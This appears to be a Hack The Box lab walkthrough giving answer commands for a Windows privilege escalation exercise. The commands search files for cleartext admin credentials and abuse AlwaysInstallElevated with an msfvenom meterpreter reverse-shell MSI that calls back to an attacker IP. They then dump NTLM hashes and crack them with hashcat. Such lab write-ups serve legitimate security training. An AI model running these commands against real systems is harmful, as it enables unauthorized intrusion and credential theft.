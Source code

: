 **Find left behind cleartext credentials for the iamtheadministrator domain admin account.
```
findstr /SIM /C:"iamtheadministrator" *.txt *.ini *.cfg *.config *.xml
```

**Escalate privileges to SYSTEM and submit the contents of the flag.txt file on the Administrator Desktop
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.3 lport=8443 -f msi > aie.msi
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
type C:\Users\Administrator\Desktop\flag.txt
```

**There is 1 disabled local admin user on this system with a weak password that may be used to access other systems in the network and is worth reporting to the client. After escalating privileges retrieve the NTLM hash for this user and crack it offline. Submit the cleartext password for this account.
```
hashdump
sudo hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
